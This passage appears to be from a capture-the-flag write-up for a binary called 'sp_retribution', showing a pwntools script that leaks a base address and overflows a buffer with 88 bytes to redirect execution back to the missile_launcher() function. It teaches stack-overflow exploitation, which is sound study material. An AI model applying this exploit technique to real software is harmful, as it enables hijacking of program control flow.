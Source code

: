 Now let's try and make sure that that offset is correct and we can indeed redirect our program flow.  
For this test we want the program to return to the ``missile_launch`` function itself instead of closing the program.  
For that we need its address which we can calculate by adding the offset of the function to the base address we leaked earlier.  
We can get the offset of the function with pwntools:

````python
from pwn import *

# Get function offsets
e = ELF("./sp_retribution", False)
missile_launcher_offset = e.symbols["missile_launcher"]

r = process("./sp_retribution")

# go to option 2.
r.recvrepeat(0.2)
r.sendline(b'2')
r.recvrepeat(0.1)

# input just 1 char and receive until right before the leaked bytes
r.sendline(b'a')
r.recvuntil(b'y = a\x0a')

# receive the 4 bytes from the leaked address and convert to an int
leak = r.recv(4)
baseaddr = int.from_bytes(b'\x00\x00' + leak, byteorder='little')

# calculate addresses based on leaked base address
missile_launcher_address = baseaddr + missile_launcher_offset

# send payload to overwrite the return address and jump back to missile_launcher()
r.recvrepeat(0.1)
payload = b'A'*88
payload += p64(missile_launcher_address)
r.sendline(payload)

r.interactive()
````
  
If we run that script we will indeed see the ``missile_launcher()`` function being executed again.  

![We're in control](img/retribution_bof_control.png)  
